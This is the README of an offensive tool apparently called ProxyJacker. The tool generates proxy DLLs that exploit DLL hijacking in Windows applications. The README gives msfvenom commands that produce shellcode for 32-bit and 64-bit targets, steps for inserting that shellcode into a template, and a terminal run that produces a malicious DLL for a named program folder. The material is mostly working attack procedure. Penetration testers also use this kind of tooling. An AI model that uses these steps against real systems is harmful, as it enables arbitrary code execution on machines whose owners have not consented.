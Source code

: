 # ProxyJacker

### Details:

​	Tool for creating forwarding dll for exploiting dll hijacking vulnerability. 

### Requirements:

- [ ] Mingw-64 installed.
- [ ] python2. 
- [ ] PEfiles lib.

### Procedure: 

1. Create shellcode with msfvenom and replace with template file with `YOUR SHELLCODE` 

   ```bash
   msfvenom -p windows/x64/exec cmd=cmd.exe -f c -b "\x00" //FOR 64bit
   msfvenom -p windows/exec cmd=cmd.exe -f c -b "\x00" //FOR 32bit
   ```

2. Run script.

   ```bash
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   
   Usage: proxydllhijacker.py 'DLL File Location' 'location for real path where real dll is '[optional]  
   
   Usage: proxydllhijacker.py '/home/kali/xyz/abc.dll' 'c:/program files/blabla/abc.dll'
   
   kali@kali:~/Music/hijack/proxyjacker$ python proxydllhijacker.py version.dll 'C:/Program Files (x86)/Testingapp/'
   
   Proxy DLL Creator For DLL HIjacking
   		 By 
   	   Rikunj Sindhwad 
   	     [Mr.R0b07]
   
   [*] DLL is 32bit 
   
   [*] Defination File Created with name of export.def
   
   [*] Created 32bit DLL : version_proxy.dll
   kali@kali:~/Music/hijack/proxyjacker$ 
   ```
##### Changelogs:

1. Initial 
2. Added Custom Path to redirect 

   ##### For Upgrade Request Use telegram to connect me on telegram https://t.me/R0B077
   #### credits: Pentester Academy for teaching such great stuff 


   
